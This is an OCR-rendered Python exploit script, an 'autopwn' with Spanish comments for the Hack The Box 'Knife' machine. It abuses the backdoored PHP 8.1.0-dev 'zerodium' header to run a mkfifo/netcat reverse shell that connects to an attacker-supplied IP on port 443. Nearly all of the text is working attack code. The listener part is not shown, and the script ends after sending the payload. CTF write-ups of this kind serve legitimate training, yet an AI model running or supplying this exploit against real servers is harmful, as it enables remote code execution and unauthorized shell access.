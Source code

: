 ```python
#!/usr/bin/python3
#coding: utf-8


# Knife Machine Autopwn
# Author: Gaizka Martin (a.k.a g2jz)


import requests
import sys
import threading
import time


from pwn import *


# Variables globales
lport = 443


# Sesion HTTP
s = requests.Session()


# Barras de progreso
p1 = log.progress("RCE")
p2 = log.progress("Reverse Shell")


# Ctrl C
def handler(signal,frame):
	log.failure("Saliendo...")
	sys.exit(1)


signal.signal(signal.SIGINT,handler)


# Intrusion
def obtainShell():
	try:
		p1.status("Enviando...")
		time.sleep(1)
		
		# Exploit
		header_data= {
			"User-Agentt":"zerodiumsystem(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc %s %s >/tmp/f\");" % (sys.argv[2],lport)
		}


		r = s.get(sys.argv[1], headers=header_data)


		p1.success("Enviada")
		time.sleep(1)
	except:
		log.failure("Ha ocurrido un error!")
		sys.exit(1)



```